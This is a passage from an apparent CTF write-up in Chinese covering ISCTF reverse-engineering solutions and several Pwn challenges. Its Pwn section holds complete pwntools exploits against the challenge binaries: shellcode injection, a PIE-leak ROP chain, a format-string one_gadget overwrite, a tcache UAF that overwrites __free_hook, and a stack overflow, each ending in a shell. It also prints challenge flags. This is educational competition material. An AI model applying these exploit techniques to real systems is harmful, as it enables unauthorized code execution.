				E[i] = (M[i] ^ K[i] ^ ans[K[i] % i]);
			}

        }
        return 0;
}

void RC4_ENC(unsigned char* enc){
		printf("RC4解密中\n");
		unsigned char S[256];
        unsigned char T[256];
        unsigned char K[256];
        unsigned char M[256];
        unsigned char* E = enc;
        unsigned char C[256];
		memset(S, 0x00, sizeof(S));
		memset(T, 0x00, sizeof(T));
        memset(K, 0x00, sizeof(K));
        memset(C, 0x00, sizeof(C));

		strcpy((char*)M, (char*)E);
		itoa(20220222, (char*)K, 8);
        initST(S, T, K, strlen((char*)K));
        initS(S, T);
        initK(S, K, 256);
        RC4(K, M, E, 32);
		printf("RC4解密完毕\n");
}

unsigned char keyMap[] ={241,239,97,187,201,69,87,67,54,235,195,245,97,31,224,237,95,25,195,131,11,103,91,68,122,157,178,126,245,181,34,101};

int main(){
	int index = 0, i = 0, j = 0;
	unsigned char enc[33] = {0};
	for(i = 0; i < 300; i++){
		for(j = 0; j < 300; j++){
			if(TrueMap[i][j] == 1){
				enc[index++] = i;
				enc[index++] = j;
				break;
			}
		}
	}

	for (i = 0; i<32; i++){
		enc[i] ^= keyMap[i];
	}
	Tea(enc);
	RC4_ENC(enc);
	printf("%s",enc);
	getchar();

	return 0;
}

```

```
//dataFlag.h
```


## FloweyRSA

***

出题人：Laffey

IDA一打开连main函数都没了。



往下翻，有几个地方是必然发生的跳转指令，中间是一坨花指令。全部nop掉





然后在main应该开始的地方create function



就能f5了。



发现是RSA加密。把密文挑出来


公钥很小，随便分解。



```python
from Crypto.Util.number import*
e=0o721
p=56099
q=56369
n=p*q
phi=(p-1)*(q-1)
d=pow(e,-1,phi)
ca=[0x00000000753C2EC5, 0x000000008D90C736, 0x0000000081282CB0,0x000000007EECC470, 0x00000000944E15D3, 0x000000002C7AC726, 0x00000000717E8070,0x0000000030CBE439, 0x00000000B1D95A9C, 0x000000006DB667BB, 0x000000001240463C,0x0000000077CBFE64, 0x0000000011D8BE59]
flag=b''
for c in ca:
    m=pow(c,d,n)
    flag+=long_to_bytes(m)
print(flag)

```



```
flag{reverse_is_N0T_@lways_jusT_RE_myy_H@bIb1!!!!!!}
```


## easy_z3

***

该题灵感源自朝雾师傅给sh的题目ease_math

出题人：her01st

解题工具:

python
z3-solver

```python
from z3 import *   
l=['']*20
for i in range(6):
    l[i]=Int('l['+str(i)+']')
s=Solver()
s.add((593*l[5] + 997*l[0] + 811*l[1] + 258*l[2] + 829*l[3] + 532*l[4])== 0x54eb02012bed42c08)
s.add((605*l[4] + 686*l[5] + 328*l[0] + 602*l[1] + 695*l[2] + 576*l[3])== 0x4f039a9f601affc3a)
s.add((373*l[3] + 512*l[4] + 449*l[5] + 756*l[0] + 448*l[1] + 580*l[2])== 0x442b62c4ad653e7d9)
s.add((560*l[2] + 635*l[3] + 422*l[4] + 971*l[5] + 855*l[0] + 597*l[1])== 0x588aabb6a4cb26838)
s.add((717*l[1] + 507*l[2] + 388*l[3] + 925*l[4] + 324*l[5] + 524*l[0])== 0x48f8e42ac70c9af91)
s.add((312*l[0] + 368*l[1] + 884*l[2] + 518*l[3] + 495*l[4] + 414*l[5])== 0x4656c19578a6b1170)

if s.check()==sat:
    m=s.model()
flag=""
for i in range(6):
    p=hex(m[l[i]].as_long())[2:]
    for j in range(int(len(p)/2)):
        flag+=chr(int(p[j*2:j*2+2],16))
print(flag)

```

```
ISCTF{N0_One_kn0ws_m@th_B3tter_Th@n_me!!!}
```


## easy_flower_tea

***

出题人：her01st

正常步骤，先查壳，丢经die可以发现，该程序是无壳，32位程序



丢进对应ida中，进入main函数，尝试tab，显示无法反编译，仔细阅读汇编，发现一个永恒跳的混淆指令，一个简单的花指令，那么我们要修复程序，进行手动去除花指令


选中0041272D到00412739，ctrl+n 将其nop掉，如何光标指向0041272D，按快捷键u取消定义，在按p变为函数，在按tab发现以及可以正常进行反编译







进入函数后，可以发现一个未知函数，以及两个比较，进入未知函数



可以发现未知函数是一个加密函数且前面有一长串赋值为12,34,56,78，有tea算法特征，通过比较tea算法，可以得知该tea未被魔改，那么通过整体代码逻辑可以得知，该程序通过用户输入的数字，通过tea加密后与1115126522以及2014982346进行比较，从而得出正确结论





那么就可以得知1115126522以及2014982346就是我们要找的密文，有秘钥以及密文然后就开始脚本解密




便可以得到1472353 3847872，然后用ISCTF{}包裹上提交即可

## mfx_re

***

出题人：f00001111

考点：UPX魔改壳

签到题，将附件中的MFX替换为UPX，mfx替换为upx，使用upx脱壳，使用IDA分析，得到程序逻辑为将输入的字符串中每个字符减1，并与程序内字符串进行对比，编写脚本还原即可。

```python
a="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
for i in a:
 print(chr(ord(i)-1),end='')

```


## z3_revenge

***

出题人：f00001111

考点：z3，解方程

怎么有人出别的比赛的题，入门题，IDA打开即可看到逻辑，if中为方程式，可以通过方程式联立消除变量并求出每个变量的值，或通过将ISCTF带入方程式计算求解，也可以使用z3添加方程式并限制变量范围求解，为方便计算，所有计算过程值及结果均在int取值范围内。


## ezrust

***

出题人：guoql

Rust编写的，保留符号并且0优化

套了一个UPX4.02的壳，无魔改，查壳时能直接发现，工具脱壳即可

可以尝试运行程序观察输入输出，如果执行此步了，能得到flag长度为32的信息，当然IDA里也能看


之后扔到IDA里看就行，刚放进去的时候IDA识别可能有些小问题，函数的未知参数比较多，像这样



进函数，让IDA识别一下参数，再出来F5刷新几次，把存在这种未知参数的刷掉就开始正常的逆向分析了



判断的地方也很好找，然后根据变量往上找赋值操作即可，因为带着符号，所以做了什么操作都容易看出来，如果稍微了解一点Rust或者其他编程语言，也能猜出来前面进行了一个循环，是取Vec[index]的操作

再往上追就追到输入和两个加密函数了，函数名字唬人起了个noname_encode



那实际上刚才的判断就已经清晰了，类似于num1[i] + input[i] != num2[i] - KEY[ORDER[i]]

此时进noname_encode函数去识别加密方式即可，实际上就是一个简单的异或操作



而数据呢来自上面比较难看的赋值，想办法提出来即可



如果调试的话，在noname_encode和main函数中check循环里，都有插入的有编写的，用时间差检测调试的函数来实现简单anti-debug

此时经过解密后得到的num1和num2数组的值，在IDA中显示的应该是0XFF和0x80，而这题的灵感来源与RustCourse中的整形溢出部分，在编程时num1和num2设置的值为:u8 = 255和:i8 = -128

```
#### [整型溢出](https://course.rs/basic/base-type/numbers.html#整型溢出)

假设有一个 `u8` ，它可以存放从 0 到 255 的值。那么当你将其修改为范围之外的值，比如 256，则会发生**整型溢出**。关于这一行为 Rust 有一些有趣的规则：当在 debug 模式编译时，Rust 会检查整型溢出，若存在这些问题，则使程序在编译时 *panic*(崩溃,Rust 使用这个术语来表明程序因错误而退出)。

在当使用 `--release` 参数进行 release 模式构建时，Rust **不**检测溢出。相反，当检测到整型溢出时，Rust 会按照补码循环溢出（*two’s complement wrapping*）的规则处理。简而言之，大于该类型最大值的数值会被补码转换成该类型能够支持的对应数字的最小值。比如在 `u8` 的情况下，256 变成 0，257 变成 1，依此类推。程序不会 *panic*，但是该变量的值可能不是你期望的值。依赖这种默认行为的代码都应该被认为是错误的代码。

```

如果按照得到的数据进行运算，这个等式并不成立num1[i] + input[i] != num2[i] - KEY[ORDER[i]]

因此考虑到两边的整形溢出后，再将等式进行推算，即可得到flag的值

```
ISCTF{Ru5t_4nd_1nteger_0v3rflow}
```


# Pwn




## test_nc

***

出题人：f00001111

考点：netcat使用

签到题，使用netcat连接即可获得flag


## nc_shell

***

出题人：f00001111

考点：shell基础命令

签到题，使用netcat连接后输入ls列出文件，使用cat flag读取flag


## abstract_shellcode

***

出题人：kadelin

解题思路：利用前面判断no的输入往栈写入syscall的字节码，接着后面使用pop code将栈中的syscall填充到shellcode底部，接着再控制rax rdi rsi rdx再进行一次read往栈写入shellcode即可getshell

构造exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')


io = process('./ezshellcode')


io.recv()
io.send(b'\x0f\x05') # syscall


shellcode = """
push rdi
pop rax
push rbx
pop rdx
push rax
push rax
push rbp
pop rsp
pop rdx
pop rdx
pop rdx
push rdx
push rdx
push rdx
push rdx
push rdx
"""

payload = asm(shellcode) + b"\x5f"

#16

io.send(payload)

shellcode = shellcraft.execve("/bin/sh", 0, 0)


io.send(b"aa" + asm(shellcode))


io.interactive()

#ubuntu20.04

```


## ezpie

***

出题人：kadelin

题目描述：两次读入，一次输入，借助第一吃读入泄露elf_base，接着计算gadget地址构造rop链即可getshell

题目提示：可泄露elf_base

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io = process('./ezpie')

io.recv()
io.send(b'a'*0x28)

io.recv(0x2f)
elf = u64(io.recv(6).ljust(8, b'\x00')) - 0x1189
pop_rdi = elf + 0x00000000000012a3
pop_rsi_r15 = elf + 0x00000000000012a1
pop_rax = elf + 0x0000000000001238
syscall = elf + 0x0000000000001236
binsh = elf + 0x00002008

io.recv()

payload = b'a'*0x58 + p64(pop_rdi) + p64(binsh) + p64(pop_rsi_r15) + p64(0)*2 + p64(pop_rax) + p64(0x3b) + p64(syscall)
io.sendline(payload)


io.interactive()


```


## fries

***

出题人：guoql

本题为简单的64位格式化字符串题目，主要考察对于格式化字符串的运用能力。

简单利用one_gadget去修改返回地址即可。

```python
from pwn import *
# -------------------修改区----------------------------
context(log_level='debug',arch='amd64',os='linux')    #arch='amd64',arch='i386'
pwnfile='./fries'
elf = ELF(pwnfile)
libc = ELF('./libc.so.6')
flag=0  # 远程/本地
ip ='192.168.75.130'
port=10000
# -------------------End------------------------------

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
it = lambda : p.interactive()
b=lambda :gdb.attach(p)
d=lambda :pause()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))


if flag:
    p = remote(ip,port)
else:
    p = process(pwnfile)
    b()


payload=b'fries\x00'
sa("Emmmmm... Could you give me some fries",payload)


# 泄露binary
sa("Go get some fries on the pier",b'%25$p%17$p%31$p')
ru(b'0x')
adventure_134=int(p.recv(12),16)
binary_base=adventure_134-134-elf.symbols['adventure']
leak("binary_base",binary_base)

# 泄露libc_base
ru(b'0x')
puts_346=int(p.recv(12),16)
libc_base=puts_346-346-libc.sym['puts']
leak("libc_base",libc_base)


# 泄露栈地址
ru(b'0x')
stack_addr=int(p.recv(12),16)
location_addr=stack_addr-104
leak("location_addr",location_addr)

# one_gadget

one=[0x50a47,0xebc81,0xebc85,0xebc88,0xebce2,0xebd3f,0xebd43]
one_gadget=libc_base+one[0]
leak("one_gadget",one_gadget)


'''
 location写的位置
 loc_content写的内容
 a1 是三链位置(主要是修改第三链的内容)
 a2 是第二链位置
                    '''
def double_byte_attack(a1,a2,location_addr,content):
    
    content_1 = content & 0xffff  # 后两位
    content_2 = (content >> 16)& 0xffff # 往前推俩
    content_3 = (content >> 32)& 0xffff # 再往前推两位
    content_4 = (content >> 48)& 0xffff # 最前面两位
    leak("content_1",content_1)
    leak("content_2",content_2)
    leak("content_3",content_3)
    leak("content_4",content_4)


    location_1= location_addr & 0xffff
    location_2= (location_addr + 2)& 0xffff
    location_3= (location_addr + 4)& 0xffff
    location_4= (location_addr + 6)& 0xffff
    leak("location_1",location_1)
    leak("location_2",location_2)
    leak("location_3",location_3)
    leak("location_4",location_4)

    location=[location_1,location_2,location_3,location_4]
    loc_content=[content_1,content_2,content_3,content_4]
    for i in range(3):
        # 打第八位为rbp_16-8 也就是改成了rbp
        payload=b"%" + str(location[i]).encode("utf-8") + b"c%"+str(a1).encode("utf-8")+b"$hn\x00"
        sa("Go get some fries on the pier",payload)
        # 往第十个位置开始写one_gadget
        payload=b"%" + str(loc_content[i]).encode("utf-8") + b"c%"+str(a2).encode("utf-8")+b"$hn\x00"
        sa("Go get some fries on the pier",payload)
            


double_byte_attack(24,34,location_addr,one_gadget)
log.success("Finshed!!!! That's all")
sa("Go get some fries on the pier",b'Pwn!!\x00')


it()

```


## touchfile1

***

出题人：xsh

```
rsp   0x7ffea5dafc60 —▸ 0x561c2e99545c (main) ◂— endbr64 
01:0008│       0x7ffea5dafc68 —▸ 0x561c2e997d90 (__do_global_dtors_aux_fini_array_entry) —▸ 0x561c2e9951c0 (__do_global_dtors_aux) ◂— endbr64 
02:0010│ rsi-6 0x7ffea5dafc70 ◂— 0x206863756f74 /* 'touch ' */
03:0018│       0x7ffea5dafc78 ◂— 0x0
... ↓          2 skipped
06:0030│       0x7ffea5dafc90 ◂— 0xa68730a31 /* '1\nsh\n' */  # read_num 的栈残留
07:0038│       0x7ffea5dafc98 ◂— 0x403ecd5005a71300

```

调试会发现，我们写入的数据和 read_num 函数的栈数据残留相邻，因此可以通过在 read_num 函数写入 sh 执行以此绕过

exp

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
p = process('./touch_file1')
elf = ELF('./touch_file1')

#gdb.attach(p, 'b *$rebase(0x12c0)\n')

p.sendlineafter(b'> ', b'1' + b'\n' + b'sh')
p.sendlineafter(b'file_name: ', b'a'*0x1a)

p.interactive()
#pause()


```


## touchfile2

***

出题人：xsh

```bash
#cp 功能直接复制 idx，导致 两个不同的 idx 指向同一个堆块，可以实现 UAF

#构造exp如下
from pwn import *
from struct import pack
from ctypes import *
#from LibcSearcher import *

def s(a) : p.send(a)
def sa(a, b) : p.sendafter(a, b)
def sl(a) : p.sendline(a)
def sla(a, b) : p.sendlineafter(a, b)
def r() : return p.recv()
def pr() : print(p.recv())
def rl(a) : return p.recvuntil(a)
def inter() : p.interactive()
def debug():
    gdb.attach(p)
    pause()
def get_addr() : return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sb() : return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def csu(rdi, rsi, rdx, rip, gadget) : return p64(gadget) + p64(0) + p64(1) + p64(rip) + p64(rdi) + p64(rsi) + p64(rdx) + p64(gadget - 0x1a)

context(os='linux', arch='amd64', log_level='debug')
#p = process(['qemu-ppc-static', '-g', '1234', './pwn'])
p = process(['./pwn'])
#p = remote('node2.yuzhian.com.cn', 32406 )
elf = ELF('./pwn')
libc = ELF('glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

# uaf -> leak libc_base
for i in range(9):
    sla(b'>', b'touch ' + chr(ord('a') + i).encode() + b' a')
sla(b'>', b'cp g gg')
sla(b'>', b'cp h hh')

for i in range(8):
    sla(b'>', b'rm ' + chr(ord('a') + i).encode())
sla(b'>', b'cat hh')
libc_base = get_addr() - 0x70 - libc.sym['__malloc_hook']

# uaf -> tcache bin attack : free_hook -> system
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']

sla(b'>', b'edit gg ' + p64(free_hook))
sla(b'>', b'touch 1 /bin/sh\x00')
sla(b'>', b'touch 2 ' + p64(system))

#pwn
sla(b'>', b'rm 1')
inter()

print(' libc_base -> ', hex(libc_base))
#debug()


```


## stack

***

出题人：xsh

```python
__int64 vuln()
{
  int v1; // [rsp+Ch] [rbp-24h] BYREF
  char s[8]; // [rsp+10h] [rbp-20h] BYREF
  __int64 v3; // [rsp+18h] [rbp-18h]
  int i; // [rsp+2Ch] [rbp-4h]

  *(_QWORD *)s = 0LL;
  v3 = 0LL;
  i = 0;
  v1 = 0;
  printf("size: ");
  __isoc99_scanf("%d", &v1);
  printf("> ");
  for ( i = 0; i < v1; ++i )
  {
    read(0, &s[i], 1uLL);
    if ( s[i] == 10 )
      break;
  }
  puts(s);
  return 0LL;
}

```

**栈溢出漏洞，溢出可以覆盖 i 的值，所以这里需要控制好溢出时候 i 的值，直接对返回地址写后门函数**

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
p = process('./stack')
elf = ELF('./stack')

#gdb.attach(p, 'b *0x4012b1')

p.sendlineafter(b'size: ', str(0x100))
p.sendlineafter(b'> ', b'a'*0x1c + p8(0x27) + p64(0x4012EE))

p.interactive()
#pause()

```


## fmt

***

出题人：xsh

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
p = process('./fmt')
elf = ELF('./fmt')

#gdb.attach(p, 'b printf')

p.sendafter(b'> ', b'%18c%8$n%34c%9$n')

#pause()

p.interactive()


```

通过调试可以发现 a 和 b 的栈地址在偏移 8 和 9 的位置
